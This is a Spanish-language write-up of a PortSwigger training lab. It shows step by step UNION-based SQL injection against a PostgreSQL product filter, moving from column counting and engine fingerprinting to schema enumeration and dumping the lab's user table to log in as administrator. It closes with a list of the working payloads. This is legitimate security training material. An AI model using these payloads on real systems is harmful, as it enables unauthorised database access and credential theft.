



# Write-up - PortSwigger SQLi Lab 8

Voy a hacer un laboratorio de Port Swigger. El lab 8 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## Descripción: Tradúcela al Español

**Lab: SQL injection attack, listing the database contents on non-Oracle databases.**

**Traducción al Español:**

**Laboratorio: ataque de inyección SQL, listando el contenido de la base de datos en sistemas que no son Oracle.**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

**Traducción:**
Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que puedes usar un ataque `UNION` para recuperar datos de otras tablas.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

**Traducción:**
La aplicación tiene una función de login, y la base de datos contiene una tabla que almacena nombres de usuario y contraseñas. Tienes que determinar el nombre de esta tabla y las columnas que contiene, y después recuperar el contenido de la tabla para obtener el nombre de usuario y la contraseña de todos los usuarios.

To solve the lab, log in as the administrator user.

**Traducción:**
Para resolver el laboratorio, inicia sesión como el usuario `administrator`.

---

## Por tanto nuestro Objetivo Principal es:

- Saber el número de columnas de la petición
- Tipado de los datos de las columnas
- Tipo y versión de la BBDD
- Lista de las tablas de la BBDD
- Lista de las columnas de la tabla objetivo
- Salida de los usuarios y contraseñas

---

## Apertura del laboratorio

Le damos a abrir lab y nos abre una página con la url:

`https://0a2400cd0448b0be81f57fe700e40014.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Vista inicial del laboratorio. Se observa la tienda vulnerable, la navegación por categorías y el entorno desde el que se va a explotar el parámetro `category` dentro del filtro de productos.

---

## Preparación del entorno

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, vamos a hacer el mismo de proceso de SQL injection UNION. Para ello, nos vamos a la categoria de Tech gifts => https://0a2400cd0448b0be81f57fe700e40014.web-security-academy.net/filter?category=Tech+gifts

Y desde burpsuite enviamos dicha petición al Repeater:

```http
GET /filter?category=Tech+gifts HTTP/1.1
Host: 0a2400cd0448b0be81f57fe700e40014.web-security-academy.net
Cookie: session=PFEwoLLtLtut9zxwVch89wZwz42rRdw3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

A partir de aquí vamos a hacer el proceso completo de enumeración para llegar hasta la tabla que contiene usuarios y contraseñas y, finalmente, autenticarnos como `administrator`.

---

## 1) Número de columnas

Primero necesitamos averiguar cuántas columnas devuelve la consulta original. Esto es obligatorio antes de construir una inyección `UNION`, porque `UNION` solo funciona si ambas consultas tienen exactamente el mismo número de columnas.

Probamos con `ORDER BY` incrementando el índice de columna:

```http
' ORDER BY 1--
HTTP/2 200 OK

' ORDER BY 2--
HTTP/2 200 OK

' ORDER BY 3--
HTTP/2 500 Internal Server Error
```

### Explicación detallada

- Cuando usamos `' ORDER BY 1--`, la consulta sigue siendo válida, lo que significa que existe al menos una columna.
- Cuando usamos `' ORDER BY 2--`, también devuelve `200 OK`, lo que indica que existe una segunda columna.
- Cuando usamos `' ORDER BY 3--`, devuelve `500 Internal Server Error`, lo que significa que la consulta original **no tiene una tercera columna**.

### Conclusión del paso 1

Por tanto sabemos que **la consulta original devuelve 2 columnas**.

Esto es muy importante, porque cualquier `UNION SELECT` que construyamos a partir de ahora tendrá que devolver también **2 columnas**.

---

## 2) Tipado de los datos de las columnas

Ahora que ya sabemos cuántas columnas hay, necesitamos verificar qué tipo de datos aceptan esas columnas. En este caso queremos saber si aceptan texto, porque más adelante necesitaremos sacar nombres de tablas, nombres de columnas, nombres de usuario y contraseñas.

Probamos:

```http
' UNION SELECT 'a', 'a'--
HTTP/2 200 OK
```

### Explicación detallada

Aquí estamos intentando inyectar una fila artificial con dos valores de texto:

- Primera columna: `'a'`
- Segunda columna: `'a'`

Como el servidor responde con `HTTP/2 200 OK`, sabemos que:

- la primera columna acepta texto
- la segunda columna acepta texto

### Conclusión del paso 2

Por tanto sabemos que **ambas columnas aceptan texto**.

Esto nos facilita mucho el laboratorio, porque podremos proyectar cadenas de texto en cualquiera de las dos posiciones del `UNION SELECT`.

---

## 3) Tipo y versión de la BBDD

Ahora necesitamos identificar qué motor de base de datos hay detrás. Esto es importante porque cada SGBD tiene funciones, comentarios y tablas de metadatos ligeramente distintas.

Primero probamos con una sintaxis típica de Microsoft / MySQL:

```http
' UNION SELECT @@version, NULL#
HTTP/2 500 Internal Server Error -> No es de tipo Microsoft
```

### Explicación

- `@@version` es una variable que suele funcionar en Microsoft SQL Server y en MySQL.
- `#` es un comentario típico usado en MySQL.
- Como da error, vemos que esta sintaxis **no encaja** con el motor que hay detrás.

Después probamos con una sintaxis típica de PostgreSQL:

```http
' UNION SELECT version(), NULL--
HTTP/2 200 OK -> Por tanto es de tipo PostgreSQL
```

### Explicación detallada

- `version()` es una función típica de PostgreSQL que devuelve la versión del servidor.
- `--` comenta el resto de la consulta original.
- `NULL` sirve como relleno para respetar las 2 columnas que ya habíamos descubierto antes.

Y además nos devuelve:

```text
PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit
```

### Conclusión del paso 3

Ya sabemos que la base de datos es **PostgreSQL** y además conocemos su versión exacta.

---

## 4) Lista de las tablas de la BBDD

Una vez identificado el motor, pasamos a enumerar tablas. En PostgreSQL, igual que en otros motores no Oracle, una forma estándar de listar tablas es usando `information_schema.tables`.

La consulta que utilizamos es:

```http
' UNION SELECT table_name, NULL FROM information_schema.tables
```

### Anatomía de la consulta

#### `'` (La comilla inicial)
Cierra la cadena de texto original de la aplicación. Es como decirle al servidor: "Termina aquí lo que estabas buscando y prepárate para mi orden".

#### `UNION SELECT`
El comando para “pegar” los resultados de una nueva consulta debajo de la consulta original.

#### `table_name`
Esta es la columna específica que contiene los nombres de las tablas dentro del diccionario de la base de datos.

#### `NULL`
Se usa como “relleno”. Si la consulta original de la web devuelve dos columnas (por ejemplo, Nombre y Precio), tu `UNION` debe devolver dos columnas obligatoriamente. Como solo te interesa el nombre de la tabla, la segunda columna la rellenas con un nulo para no romper la estructura.

#### `FROM information_schema.tables`
Es el origen de los datos. `information_schema` es una base de datos lógica de metadatos (información sobre la información) que guarda la estructura del servidor: tablas, columnas, vistas, restricciones, etc.

#### ¿Qué esperamos ver?
Si la inyección tiene éxito, la página web, que normalmente muestra una lista de productos, ahora mostrará una lista de todos los nombres de las tablas de la base de datos.

Nos devuelve: `HTTP/2 200 OK`

y nos da estas:

```text
pg_partitioned_table
pg_available_extension_versions
pg_shdescription
user_defined_types
udt_privileges
sql_packages
pg_event_trigger
pg_amop
schemata
routines
referential_constraints
administrable_role_authorizations
products
pg_foreign_data_wrapper
pg_prepared_statements
pg_largeobject_metadata
foreign_tables
sql_implementation_info
collation_character_set_applicability
check_constraint_routine_usage
pg_statio_user_sequences
pg_cast
pg_user_mappings
users_xazafw
pg_statio_all_tables
pg_stat_progress_vacuum
pg_statio_sys_sequences
pg_inherits
pg_stat_xact_all_tables
column_options
foreign_servers
sql_features
pg_stat_wal_receiver
pg_pltemplate
constraint_table_usage
pg_ts_parser
parameters
pg_stat_activity
pg_ts_template
element_types
Lightbulb Moments
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
`users_xazafw` => esta es sospechosa

### Conclusión del paso 4

`users_xazafw` es sospechosa porque:

- empieza por `users`
- el laboratorio ya nos ha dicho que existe una tabla que contiene usuarios y contraseñas
- el sufijo aleatorio (`_xazafw`) es típico de PortSwigger para obligarte a enumerar correctamente en lugar de asumir nombres

---

## 5) Lista de las columnas de la tabla objetivo

Ahora que ya tenemos una tabla sospechosa, necesitamos averiguar qué columnas contiene. Para ello consultamos `information_schema.columns`, filtrando por el nombre de la tabla.

La consulta es:

```http
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xazafw'--
HTTP/2 200 OK
```

Nos devuelve además:

```text
password_fqftfl
username_hjamdl
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Explicación detallada

#### `information_schema.columns`
Esta vista contiene la definición de las columnas de todas las tablas de la base de datos.

#### `column_name`
Es la columna que guarda el nombre de cada columna real de la tabla.

#### `WHERE table_name = 'users_xazafw'`
Aquí filtramos solo las columnas de la tabla que nos interesa, para no traer todo el esquema de la base de datos.

### Conclusión del paso 5

Ya sabemos que la tabla objetivo `users_xazafw` contiene dos columnas muy importantes:

- `username_hjamdl`
- `password_fqftfl`

Y esto encaja perfectamente con lo que buscábamos: una tabla de credenciales.

---

## 6) Salida de los usuarios y contraseñas

Ahora que ya conocemos:

- el nombre de la tabla
- el nombre de la columna de usuario
- el nombre de la columna de contraseña

Podemos hacer la extracción real de datos:

```http
' UNION SELECT username_hjamdl, password_fqftfl FROM users_xazafw--
HTTP/2 200 OK
```

Y obtenemos:

```text
carlos
	fn1lfql9c21ell5qydno
wiener
	5z4v8pv2u4ustpf77mx0
administrator
	oe71ki4eafjrhg598e8t
```

### Explicación detallada

Esta es la fase final de la enumeración SQLi:

- `username_hjamdl` ocupa la primera columna del `UNION`
- `password_fqftfl` ocupa la segunda columna
- `FROM users_xazafw` indica que los datos ya no se leen de la tabla de productos, sino de la tabla de usuarios

Como la página representa el resultado en el frontend, ahora en lugar de productos vemos directamente usuarios y contraseñas.

### Conclusión del paso 6

Ya tenemos las credenciales del usuario `administrator`:

- **Usuario:** `administrator`
- **Contraseña:** `oe71ki4eafjrhg598e8t`

---

## Ahora nos logueamos como administrator

Le damos a My Account y nos logueamos con las credenciales: (imagen 2)



**Referencia a la imagen 2:** Formulario de login rellenado con el usuario `administrator` y la contraseña obtenida mediante la inyección SQL.

Le damos a login y somos admin (imagen 3)



**Referencia a la imagen 3:** Panel de `My Account` del usuario `administrator` y banner superior indicando que el laboratorio ha sido resuelto correctamente.

---

## Resumen técnico completo del proceso

En este laboratorio hemos seguido exactamente una metodología realista de explotación de SQL injection basada en `UNION`:

1. **Determinar el número de columnas**
   - Con `ORDER BY`
   - Descubrimos que hay 2 columnas

2. **Determinar el tipo de datos**
   - Con `UNION SELECT 'a', 'a'--`
   - Descubrimos que ambas aceptan texto

3. **Identificar el motor de base de datos**
   - `@@version` falla
   - `version()` funciona
   - Concluimos que es PostgreSQL

4. **Enumerar tablas**
   - Con `information_schema.tables`
   - Encontramos `users_xazafw`

5. **Enumerar columnas**
   - Con `information_schema.columns`
   - Encontramos `username_hjamdl` y `password_fqftfl`

6. **Extraer credenciales**
   - Con `UNION SELECT username_hjamdl, password_fqftfl FROM users_xazafw--`

7. **Autenticarnos como administrator**
   - Usando las credenciales obtenidas

---

## Payloads clave utilizados

### Número de columnas
```http
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

### Tipado de columnas
```http
' UNION SELECT 'a', 'a'--
```

### Identificación de motor
```http
' UNION SELECT @@version, NULL#
' UNION SELECT version(), NULL--
```

### Enumeración de tablas
```http
' UNION SELECT table_name, NULL FROM information_schema.tables
```

### Enumeración de columnas
```http
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xazafw'--
```

### Extracción final
```http
' UNION SELECT username_hjamdl, password_fqftfl FROM users_xazafw--
```

---

## Conclusión

Este laboratorio ya no se limita a descubrir una versión o a romper un filtro simple. Aquí lo que hacemos es una **enumeración completa del esquema de la base de datos**, identificando:

- estructura de la consulta vulnerable
- compatibilidad de tipos
- motor de BBDD
- tablas internas
- columnas sensibles
- credenciales reales

Y todo ello culmina con el objetivo final del laboratorio: iniciar sesión como `administrator`.

**Laboratorio resuelto.**
